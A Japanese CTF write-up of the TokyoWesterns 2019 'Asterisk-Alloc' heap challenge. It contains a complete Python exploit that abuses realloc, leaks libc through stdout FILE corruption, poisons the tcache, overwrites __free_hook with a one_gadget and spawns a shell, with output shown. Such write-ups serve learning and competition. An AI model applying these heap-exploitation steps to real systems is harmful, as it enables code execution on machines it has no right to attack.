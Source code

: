 # [pwn 221pts] Asterisk-Alloc - TokyoWesterns CTF 5th 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f asterisk_alloc
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   85 Symbols     Yes      0               4       asterisk_alloc
```

malloc, calloc, realloc, freeができます。
mallocされたものは`ptr_m`に、callocは`ptr_c`、reallocは`ptr_r`に入り、いずれもfreeでdouble freeでき、サイズも指定できます。
ただし、mallocとcallocはそれぞれ`ptr_m`, `ptr_r`がNULLでないと実行できないので、1度しか呼び出せません。
ということでreallocにすべてをかけるのですが、malloc.cを読んでみましょう。
```c
  /* realloc of null is supposed to be same as malloc */
  if (oldmem == 0)
    return __libc_malloc (bytes);
```
`ptr_r`がNULLであればreallocはmallocと等価に扱えます。
```c
  if (bytes == 0 && oldmem != NULL)
    {
      __libc_free (oldmem); return 0;
    }
```
サイズが0ならfreeして終了します。
問題はshow系の機能が無いということですが、ここはいつもの`_IO_2_1_stdout_`で乗り切りましょう。

mallocとcallocが1回ずつしか使えないので、reallocで何とかする必要があります。
reallocは負の値をサイズとして受け取ると特に何もせずNULLを返します。
したがって、次のように任意のアドレスを返すことができます。
```
r(0x80);
free(ptr_r);
r(0x0);
r(0x80);
*(unsigned long*)ptr_r = (unsigned long)&target;
r(-1);
r(0x80);
r(-1);
r(0x80);
```
`r(-1); r(size);`が実質`m(size);`と等価なので、これで勝ちです。

```python
from ptrlib import *

def malloc(size, data):
    sock.sendlineafter("Your choice: ", "1")
    sock.sendlineafter(": ", str(size))
    sock.sendafter(": ", data)
    return

def calloc(size, data):
    sock.sendlineafter("Your choice: ", "2")
    sock.sendlineafter(": ", str(size))
    sock.sendafter(": ", data)
    return

def realloc(size, data='A'):
    sock.sendlineafter("Your choice: ", "3")
    sock.sendlineafter(": ", str(size))
    if size > 0:
        sock.sendafter(": ", data)
    return

def free(name):
    sock.sendlineafter("Your choice: ", "4")
    sock.sendlineafter("Which: ", name)
    return

libc = ELF("./libc.so.6")
libc_one_gadget = 0x4f322

while True:
    sock = Process("./asterisk_alloc")

    # libc leak
    realloc(0x38, 'A'*0x38)
    realloc(0)
    realloc(0x28, 'B'*0x28)
    realloc(0)
    realloc(0x18, 'C'*0x18)
    realloc(0)

    realloc(-1)
    realloc(0x500, "r")
    calloc(0x500, 'A')
    free('r')

    realloc(-1)
    realloc(0x18, '\x00')
    free('r')
    free('r')
    free('r')
    realloc(-1)
    realloc(0x18, '\xe0')
    realloc(-1)
    realloc(0x18, p64(0) + p64(0x21)) # bypass realloc check
    realloc(-1)
    #realloc(0x18, p64(0) + p64(0x21) + b'\x60\x07\xdd') # for DEASLR
    realloc(0x18, p64(0) + p64(0x21) + b'\x60\x47')

    realloc(-1)
    realloc(0x28, 'A' * 0x28)
    free('r')
    free('r')
    free('r')
    realloc(-1)
    realloc(0x28, '\xf0')
    realloc(-1)
    realloc(0x28, b'X' * 0x18 + p64(0x21)) # bypass free check
    realloc(-1)
    realloc(0x28, '\x00' * 0x28)
    payload = p64(0xfbad1880)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += b'\x88'
    try:
        malloc(0x28, payload)
        libc_base = u64(sock.recv(8)) - libc.symbol("_IO_2_1_stdout_") - 131
        assert 0x7f0000000000 < libc_base < 0x800000000000
        logger.info("libc base = " + hex(libc_base))
    except:
        continue

    # tcache poisoning
    realloc(-1)
    realloc(0x38, 'A')
    free('r')
    free('r')
    free('r')
    realloc(-1)
    realloc(0x38, p64(libc_base + libc.symbol("__free_hook")))
    realloc(-1)
    realloc(0x38, 'A')
    realloc(-1)
    realloc(0x38, p64(libc_base + libc_one_gadget))

    # get the shell!
    free('r')

    sock.interactive()
    exit()
```

わーい。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=25572)
[+] __init__: Successfully created new process (PID=25573)
[+] close: close: './asterisk_alloc' killed
[+] <module>: libc base = 0x7f6fbdf38000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
面白かったです。
